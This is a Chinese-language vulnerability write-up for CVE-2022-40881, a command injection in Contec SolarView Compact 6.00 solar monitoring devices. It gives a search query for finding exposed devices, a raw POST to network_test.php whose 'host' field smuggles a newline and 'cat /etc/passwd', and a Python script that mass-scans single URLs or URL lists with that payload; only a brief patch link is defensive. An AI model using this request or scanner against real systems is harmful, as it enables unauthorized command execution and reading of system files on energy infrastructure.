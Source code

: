 # 

# SolarView Compact 命令注入漏洞 CVE-2022-40881

## 漏洞描述

Contec SolarView Compact是日本Contec公司的一个应用系统。提供光伏发电测量系统。Contec SolarView Compact 6.00版本存在安全漏洞，攻击者利用该漏洞可以通过 network_test.php 的命令注入攻击。

## 漏洞影响

```
SolarView Compact 6.00
```

## 网络测绘

```
body="SolarView Compact" && title=="Top"
```

## 漏洞复现

发送数据包：

```
POST /cgi-bin/network_test.php HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 44

host=%0acat${IFS}/etc/passwd%0a&command=ping
```

## 漏洞POC

```python
import sys
import requests
import argparse

def poc_scan(url):
    try:
        url = url + "/network_test.php"
        response = requests.post(url,data = "host=%0acat${IFS}/etc/passwd%0a&command=ping",timeout=2)
        if response.status_code == 200:
            print(f"\033[92m[+] {url} is vulnerable!\033[0m")
        else:
            print(f"\033[31m[-] {url} is not vulnerable!\033[0m")
    except:
        pass


def open_file(filename):
    with open(filename, 'r', encoding='utf-8') as f:
        filecontent = f.read()
    return filecontent

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url")
    parser.add_argument("-f", "--file")
    args = parser.parse_args()
    url = args.url
    filename = args.file

    if sys.argv[1] == '-u':
        poc_scan(url)
    else:
        filecontent = open_file(filename)
        filecontent = filecontent.split("\n")
        for i in filecontent:
            poc_scan(i)
```

## 修复建议

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://www.contec.com/products-services/environmental-monitoring/solarview/



